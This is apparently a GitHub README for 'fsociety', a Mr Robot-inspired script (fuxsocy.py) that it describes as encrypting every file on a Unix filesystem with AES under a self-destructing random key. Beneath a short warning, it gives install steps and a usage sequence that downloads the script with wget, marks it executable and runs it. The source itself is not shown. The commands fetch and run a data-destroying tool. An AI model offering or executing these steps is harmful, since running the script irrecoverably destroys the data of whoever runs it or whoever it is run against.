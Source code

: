 # fsociety
__WARNING: do not actually execute this. You will not be able to recover the files.__

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The fuxsocy.py script is based on Darlene's malware shown in Mr Robot

## S2E1:

![alt text](https://i.imgur.com/6RIogYa.jpg)

![](https://i.imgflip.com/1pf4yg.gif)

### Dependencies:

* python
* pycrypto

```shell
sudo apt install python python-pip
```
```shell
sudo pip install pycrypto
```

### Usage:

```shell
wget https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
